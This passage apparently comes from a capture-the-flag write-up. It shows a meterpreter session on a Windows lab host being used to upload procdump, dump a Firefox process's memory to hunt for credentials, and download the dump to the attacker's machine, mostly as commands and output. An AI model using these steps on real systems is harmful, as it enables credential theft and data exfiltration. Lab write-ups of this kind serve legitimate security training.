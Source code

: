 When we list all the processes running on the box using the `ps` command, we noticed that `firefox.exe` is currently running.
{% highlight bash %}
meterpreter > ps
Process List
============

 PID   PPID  Name                       Arch  Session  User               Path
 ---   ----  ----                       ----  -------  ----               ----
796   4660  firefox.exe                x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
1620  796   firefox.exe                x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
2264  796   firefox.exe                x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
5912  796   firefox.exe                x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
6068  796   firefox.exe                x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
{% endhighlight %}

Lets try to dump out the process's memory to see if we can extract any credentials! I will be using [Sysinternals](https://live.sysinternals.com/)'s `procdump.exe`. Since we already have a meterpreter shell, we can just use the `upload` command to transfer it over.
{% highlight bash %}
meterpreter > upload procdump.exe
[*] uploading  : procdump.exe -> procdump.exe
[*] Uploaded 636.16 KiB of 636.16 KiB (100.0%): procdump.exe -> procdump.exe
[*] uploaded   : procdump.exe -> procdump.exe
{% endhighlight %}

Next up, we spawn a `cmd.exe` shell and run `procdump.exe` on the `firefox.exe` process.

{% highlight bash %}
meterpreter > shell
Process 3708 created.
Channel 102 created.
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chase>procdump.exe -accepteula -ma 796
procdump.exe -accepteula -ma 796

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[19:30:23] Dump 1 initiated: C:\Users\Chase\firefox.exe_190831_193023.dmp
[19:30:24] Dump 1 writing: Estimated dump file size is 473 MB.
[19:30:29] Dump 1 complete: 474 MB written in 5.2 seconds
[19:30:29] Dump count reached.
{% endhighlight %}

With that done, we exit out of our `cmd.exe` and use the `download` command to retrieve the process dump.
{% highlight bash %}
C:\Users\Chase>exit
exit
meterpreter > download C:\\Users\\Chase\\firefox.exe_190831_193023.dmp
[*] Downloading: C:\Users\Chase\firefox.exe_190831_193023.dmp -> firefox.exe_190831_193023.dmp
[*] Downloaded 462.05 MiB of 462.05 MiB (100.0%): C:\Users\Chase\firefox.exe_190831_193023.dmp -> firefox.exe_190831_193023.dmp
[*] download   : C:\Users\Chase\firefox.exe_190831_193023.dmp -> firefox.exe_190831_193023.dmp
{% endhighlight %}
